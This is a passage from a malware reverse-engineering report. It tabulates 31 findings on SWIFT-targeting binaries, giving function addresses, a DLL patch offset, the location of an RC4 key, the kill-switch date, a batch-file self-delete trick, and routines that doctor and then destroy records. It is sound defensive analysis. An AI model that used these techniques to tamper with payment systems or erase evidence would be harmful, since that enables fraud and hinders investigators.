**NOTE :** Priority ordering for a triage analyst: start with CRITICAL IOCs (any one is dispositive), escalate immediately. HIGH IOCs warrant collection and containment. MEDIUM IOCs warrant investigation but should be considered in clusters, two or more MEDIUM IOCs together are as significant as a single HIGH IOC.

# 11. Summary of Novel Findings vs. Prior Public Reporting

This table lists findings from this RE session that go beyond what **BAE 2016**, **DOJ 2018**, and **Udurrani 2022** or any other entity document publicly. Each is grounded in a specific binary address.

| **\#** | **Finding**                                                                              | **Binary**       | **Key address**             | **Prior status**                                                                                                                                                                                                                                                                                                                      |
|--------|------------------------------------------------------------------------------------------|------------------|-----------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1      | 12-command operator CLI (-svc, -i, -u, -t, -s, -r, -g, -p resume\|pause\|on\|off\|queue) | evtdiag          | FUN_00409db0                | Not documented                                                                                                                                                                                                                                                                                                                        |
| 2      | diagsysevt service name                                                                  | evtdiag          | .data:0x40FD04              | Not named in BAE                                                                                                                                                                                                                                                                                                                      |
| 3      | evtsys.exe used as service dispatcher masquerade                                         | evtdiag          | .data:0x40FAB4              | Not documented                                                                                                                                                                                                                                                                                                                        |
| 4      | liboradb.dll patch RVA = 0x6A8B6 (exact)                                                 | evtdiag          | FUN_00402580                | BAE says "specific offset" without value                                                                                                                                                                                                                                                                                              |
| 5      | Bidirectional patch — install AND uninstall both exposed                                 | evtdiag          | FUN_00402580 + FUN_00409db0 | BAE describes install only                                                                                                                                                                                                                                                                                                            |
| 6      | State-verification before patching (refuses if wrong bytes)                              | evtdiag          | FUN_00402580                | Not documented                                                                                                                                                                                                                                                                                                                        |
| 7      | RC4 key hardcoded at .data:0x40F020 (not derived)                                        | evtdiag          | .data:0x40F020              | Key published; location not                                                                                                                                                                                                                                                                                                           |
| 8      | gpca.dat 3-byte magic header D0 C0 B0                                                    | evtdiag          | FUN_004013b0                | Not documented                                                                                                                                                                                                                                                                                                                        |
| 9      | mcf = fourth monitored subdirectory (BAE lists only 3)                                   | evtdiag          | .data:0x40F0A0              | Missing from BAE                                                                                                                                                                                                                                                                                                                      |
| 10     | Additional SWIFT tags: 36B:, 61:, 64:, 65:                                               | evtdiag          | .data:0x40FECC-0x40FEEC     | Not in BAE tag list                                                                                                                                                                                                                                                                                                                   |
| 11     | SDDL ACL applied to artifacts (CO/SY/BA/user only)                                       | evtdiag          | FUN_00401b10                | Not documented                                                                                                                                                                                                                                                                                                                        |
| 12     | Service-mode gating on patch install (DAT_004195c9)                                      | evtdiag          | .data:0x004195c9            | Not documented                                                                                                                                                                                                                                                                                                                        |
| 13     | Kill switch exact date bytes (0x7E0, 0x02, 0x06, 0x06)                                   | evtdiag          | FUN_00409230                | BAE mentions 6am Feb 6; function not identified                                                                                                                                                                                                                                                                                       |
| 14     | C2 beacon thread payload queue (FUN_00403020, max 511B)                                  | evtdiag          | LAB_00409130                | BAE says "hourly"; queue mechanism not documented                                                                                                                                                                                                                                                                                     |
| 15     | Two independent login-state probes (---O/---C/---N)                                      | evtdiag          | FUN_00408e00 + FUN_00408ea0 | Markers listed in BAE; two-probe mechanism not                                                                                                                                                                                                                                                                                        |
| 16     | \_DO_NOT_USE_MM\_ as message-boundary sentinel (proven across 2 subsystems)              | evtdiag          | .data:0x40F12C              | String known; role not proven                                                                                                                                                                                                                                                                                                         |
| 17     | PRT files doctor-then-destroy (not just destroy)                                         | evtdiag          | FUN_004041c0                | BAE says "overwritten and deleted"; substitution not documented                                                                                                                                                                                                                                                                       |
| 18     | PRT cleanup runs every 1 second (continuous, not one-shot)                               | evtdiag          | FUN_004043e0 + main loop    | Not documented                                                                                                                                                                                                                                                                                                                        |
| 19     | 5-stage cleanup chain (gpca → recas → service → spawn evtsys → exit)                     | evtdiag          | FUN_00409af0                | BAE describes cleanup; chain not enumerated                                                                                                                                                                                                                                                                                           |
| 20     | ST-0-E / ST-1 / ST-2 / ST-3 / ST-100 internal state machine                              | evtdiag          | .data:0x40FD10-0x40FD38     | Not documented                                                                                                                                                                                                                                                                                                                        |
| 21     | evtsys invoked with evtdiag's OWN PATH as argv\[1\]                                      | evtdiag          | FUN_00409300                | Not documented                                                                                                                                                                                                                                                                                                                        |
| 22     | evtsys retry loop: up to 50 attempts × 1s to delete locked file                          | evtsys           | FUN_004013e0                | Not documented                                                                                                                                                                                                                                                                                                                        |
| 23     | evchk.bat self-delete via PING 0.0.0.0 sleep trick                                       | evtsys           | FUN_00401230                | Not documented                                                                                                                                                                                                                                                                                                                        |
| 24     | evchk.bat filename built byte-by-byte (anti-strings)                                     | evtsys           | FUN_00401230                | Not documented                                                                                                                                                                                                                                                                                                                        |
| 25     | Zero-fill is FULL FILE (not 1-byte) in 4KB chunks                                        | evtsys + evtdiag | FUN_004010f0 / FUN_00401640 | BAE says "overwritten with 0s" ,now byte-proven                                                                                                                                                                                                                                                                                       |
| 26     | Cloned secure-delete: evtdiag FUN_00401640 ≡ evtsys FUN_004010f0 (same stack, same loop) | Both             | Both                        | Not documented                                                                                                                                                                                                                                                                                                                        |
| 27     | Vestigial RC4 key in evtsys.exe with zero XREFs (shared source tree evidence)            | evtsys           | .data:0x00403010            | Not documented                                                                                                                                                                                                                                                                                                                        |
| 28     | nroff_b.exe is a SWIFT message demultiplexer, not a print engine                         | nroff_b          | FUN_004026e0                | No deep analysis in prior reports                                                                                                                                                                                                                                                                                                     |
| 29     | nroff_b applies gpca.dat filter list (64-byte slot array, StrStrIA)                      | nroff_b          | FUN_00401cc0                | Not documented                                                                                                                                                                                                                                                                                                                        |
| 30     | nroff_b recognizes MT950 (0x3B6) and MT515 (0x203) as distinct types                     | nroff_b          | FUN_004026e0                | Not documented                                                                                                                                                                                                                                                                                                                        |
| 31     | recas.dat is plaintext, Oosthoek & Doerr "XOR encoding" claim is incorrect               | evtdiag          | FUN_00401000                | Oosthoek & Doerr (2021) claim "XOR encoding at 0x40BB42." That address is the RC4 PRGA, called exclusively by the gpca.dat decryptor (XREF\[1\]: FUN_0040BBC0 only). FUN_00401000 (the actual recas.dat writer) uses fopen("at") + fprintf("\[%02d:%02d:%02d\] %s\r\n"), no encoding of any kind. recas.dat is append-mode plaintext. |

**Count:** 31 novel findings, each grounded in specific binary addresses. All findings are verifiable by any analyst using the same samples and Ghidra 12.x.

The BEA report is referenced because it is the only official document we identified that addresses this incident from a technical perspective. The other references either mention the incident as an additional event within a broader subject or discuss it only in general terms, without providing a detailed technical analysis.

*Hazem AKKOUH, Reverse-Engineering & Malware Analysis, September 2026  
  
*
